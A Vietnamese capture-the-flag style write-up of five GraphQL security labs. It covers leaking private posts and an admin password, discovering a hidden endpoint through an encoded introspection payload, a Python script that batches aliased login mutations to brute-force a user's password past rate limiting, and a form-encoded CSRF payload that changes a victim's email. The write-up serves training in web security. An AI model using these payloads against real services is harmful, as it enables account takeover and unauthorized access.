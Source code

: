 ```yaml
---
title: 'Web14: GraphQL API vulnerabilities'
tags: [web14]

---
```


# **1. Lab: Accessing private GraphQL posts**
![image](https://hackmd.io/_uploads/S193fdCv0.png)

>Truy cập lab, khi load trang chủ thì có 1 request `POST /graphql/v1` để fetch data từ server sử dụng GraphQL API:
>![image](https://hackmd.io/_uploads/rJ9O3OAwC.png)

>Sử dụng tool InQL để Scan thì phát hiện 2 query `getAllBlogPosts` dùng để truy vấn dữ liệu toàn bộ post và `getBlogPost` dùng để truy vấn dữ liệu của từng post theo id: 
>![image](https://hackmd.io/_uploads/BJJ2huCvC.png)

>Ta sẽ thử truy vấn toàn bộ thuộc tính của query `getAllBlogPosts`
>![image](https://hackmd.io/_uploads/SJ0W6_RPC.png)

>Thành công truy vấn và biết thêm được các thuộc tính bị ẩn:
>![image](https://hackmd.io/_uploads/rkzLT_AvR.png)

>Trong đó có thuộc tính `isPrivate` mang giá trị False, ta có thể đoán ra được nếu nó bằng True thì post này sẽ bị ẩn. Thật vậy, khi lấy toàn bộ post, để ý post với `id=3` không được xuất hiện:
>![image](https://hackmd.io/_uploads/Hyxp6O0D0.png)

>Tiếp theo ta sẽ đi xem các thuộc tính của post với `id=3` bằng query `getBlogPost`:
>![image](https://hackmd.io/_uploads/Skxz0u0wC.png)

>Thay đổi param `id=3` và send:
>![image](https://hackmd.io/_uploads/S1AECu0wR.png)

>Thành công lấy được `"postPassword": "ev31et4y7cq3weiy6q8aapg2cb1n4sxx"` là flag cần tìm!

>Submit và hoàn thành bài lab:
>![image](https://hackmd.io/_uploads/rkCOCuCvA.png)

# **2. Lab: Accidental exposure of private GraphQL fields**

>Như bài trước, scan thì phát hiện 1 query `getUser`:
>![image](https://hackmd.io/_uploads/SkgzmeKRP0.png)

>Ta sẽ thử thay tham số `id` với từng giá trị nhằm tìm ra tài khoản của admin. Thử với `id=0` thì không trả về giá trị gì:
>![image](https://hackmd.io/_uploads/ryt8eKRv0.png)

>Thử với `id=1` thì ta thành công truy vấn ra được `username` và `password` của admin:
>![image](https://hackmd.io/_uploads/ryVFgYCPC.png)
![image](https://hackmd.io/_uploads/HJz5xYCDA.png)

>Đăng nhập vào tài khoản `administrator` và truy cập Admin Panel:
>![image](https://hackmd.io/_uploads/B1h2lt0wA.png)

>Xóa `carlos` và hoàn thành bài lab:
>![image](https://hackmd.io/_uploads/HJ6CeFCPC.png)

# **3. Lab: Finding a hidden GraphQL endpoint**
![image](https://hackmd.io/_uploads/rJ67OTCv0.png)

>Lab này đã che giấu đi endpoint graphQL, khi truy cập trang chủ `/` thì ta không thấy endpoint nào để khai thác:
>![image](https://hackmd.io/_uploads/Bkv1uTADC.png)

>Ta sẽ đi thử xem web này có hỗ trợ call api hay không bằng cách thêm 1 số hậu tố cơ bản , tới khi thêm `/api` thì có phản hồi khác biệt:
>![image](https://hackmd.io/_uploads/Bk5P9aCwA.png)

>Respone phản hồi **"Query not present"**, gợi ý cho ta rằng tại endpoint này có khả năng là endpoint graphQL bị che giấu! Sửa đổi request để chứa một truy vấn chung. Lưu ý rằng vì endpoint đang respone các yêu cầu GET nên ta cần gửi truy vấn dưới dạng tham số URL: `/api?query=query{__typename}`:
>![image](https://hackmd.io/_uploads/HkPEoaCvC.png)

>Trên Payload All The Thing, tìm payload và URL-1encode để tìm introspection của schema:
```
/api?query=query+IntrospectionQuery+%7B%0D%0A++__schema%0a+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A

```

>Ta có được schema của graphQL:
>![image](https://hackmd.io/_uploads/BkoklRCPA.png)

>Tiến hành lưu schema này ra file:
>![image](https://hackmd.io/_uploads/S1AmlAADA.png)

>Sau đó, tại tool InQL, chọn file mà ta vừa lưu, nó sẽ phân tích ra được các query `getUser` và 1 mutation là `deleteOrganizationUser`
>![image](https://hackmd.io/_uploads/Sy4ieA0DR.png)

>Từ query `getUser`, ta lấy được id của `carlos` là `id=3`:
![image](https://hackmd.io/_uploads/HybnZC0vA.png)

>Tận dụng mutation `deleteOrganizationUser` dùng để xóa user theo id:
>![image](https://hackmd.io/_uploads/HyBdfACDC.png)

>Send request xóa user có `id=3` tương ứng với `carlos`:
>![image](https://hackmd.io/_uploads/H1jPzACDR.png)

>Hoàn thành bài lab:
>![image](https://hackmd.io/_uploads/ryVczCCDR.png)

# **4. Lab: Bypassing GraphQL brute force protections**
![image](https://hackmd.io/_uploads/H1Moy61uA.png)

>Mục tiêu của bài này là đăng nhập vào được `carlos` với list mật khẩu cho trước. 

>Để ý request đăng nhập sử dụng graphQL để thực thi `mutation login`, khi không thành công sẽ trả về `success:false`. 
>![image](https://hackmd.io/_uploads/S1Legay_0.png)

>Khi đăng nhập 3 lần sai liên tiếp thì web chặn ta login và phải chờ 1 phút sau mới được tiếp tục. Rõ ràng chỗ này đã trang bị cơ chế chống brute-force:
>![image](https://hackmd.io/_uploads/rkPIx61OA.png)

>Nhưng có thể bypass bằng cách chỉ cần gửi nhiều request login trong 1 request graph-api duy nhất, server vẫn xử lí tuần tự các request login và trả về respone tương ứng:
>![image](https://hackmd.io/_uploads/BJJ0NTJdR.png)

>Từ đó, với list mật khẩu cho trước, ta sẽ code với 1 request login là 1 bí danh riêng:

>Source code python sử dụng để sinh:
```python
import pyperclip

def main():
    passwords = ["123456","password","12345678","qwerty","123456789","12345","1234","111111","1234567","dragon",
                 "123123","baseball","abc123","football","monkey","letmein","shadow","master","666666","qwertyuiop",
                 "123321","mustang","1234567890","michael","654321","superman","1qaz2wsx","7777777","121212","000000",
                 "qazwsx","123qwe","killer","trustno1","jordan","jennifer","zxcvbnm","asdfgh","hunter","buster",
                 "soccer","harley","batman","andrew","tigger","sunshine","iloveyou","2000","charlie","robert","thomas",
                 "hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica",
                 "pepper","1111","zxcvbn","555555","11111111","131313","freedom","777777","pass","maggie","159753",
                 "aaaaaa","ginger","princess","joshua","cheese","amanda","summer","love","ashley","nicole","chelsea",
                 "biteme","matthew","access","yankees","987654321","dallas","austin","thunder","taylor","matrix",
                 "mobilemail","mom","monitor","monitoring","montana","moon","moscow"]

    query = []
    for i, password in enumerate(passwords):
        query.append(f'bruteforce{i}: login(input: {{ password: "{password}", username: "carlos" }}) {{')
        query.append("    token")
        query.append("    success")
        query.append("}")

    query_str = "\n".join(query)
    
    # Copy query to clipboard
    pyperclip.copy(query_str)
    print("The query has been copied to your clipboard.")

if __name__ == "__main__":
    main()

```

>Kết quả send request:
>![image](https://hackmd.io/_uploads/rkEBSpk_0.png)

>Tìm kiếm request login có `success=true`:
>![image](https://hackmd.io/_uploads/BycLBp1O0.png)

>Tìm được mật khẩu tương ứng cho `carlos` là `1234`, login thành công:
>![image](https://hackmd.io/_uploads/HkpKH6JOA.png)

>Hoàn thành bài lab:
>![image](https://hackmd.io/_uploads/BkqqHpyuR.png)

# **5. Lab: Performing CSRF exploits over GraphQL**
![image](https://hackmd.io/_uploads/rkEOO6JdC.png)

>Đăng nhập `wiener` và thử update email thì thấy 1 request sử dụng graphQL để change email:
>![image](https://hackmd.io/_uploads/rkaIPZeO0.png)

>Dễ dàng thấy được `Content-Type: application/json` và khi thay đổi type thì xảy ra lỗi:
>![image](https://hackmd.io/_uploads/Bk06DZed0.png)

>Tuy nhiên, ta có thể sử dụng định dạng `x-www-form-urlencoded` trong query mà server vẫn chấp nhận:
```
query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22ducanh%40john.com%22%7D%7D
```
![image](https://hackmd.io/_uploads/B1z1FbxuC.png)

>Mà quá trình này ko có bất kì 1 cơ chế bảo vệ nào, như csrf-token, điều này có thể dẫn tới 1 cuộc tấn công CSRF. Chuột phải và chọn **"Genarate CSRF PoC"**:
>![image](https://hackmd.io/_uploads/B1KmF-xu0.png)
![image](https://hackmd.io/_uploads/By2lcZlu0.png)

>Lưu vào exploit-server:
>![image](https://hackmd.io/_uploads/HJyDtWguR.png)

>**"Deliver exploit to victim"**, xem lại log ta thấy rằng victim đã truy cập vào link ta gửi:
>![image](https://hackmd.io/_uploads/H13oFbgO0.png)

>Hoàn thành bài lab:
>![image](https://hackmd.io/_uploads/ryH3FZxu0.png)


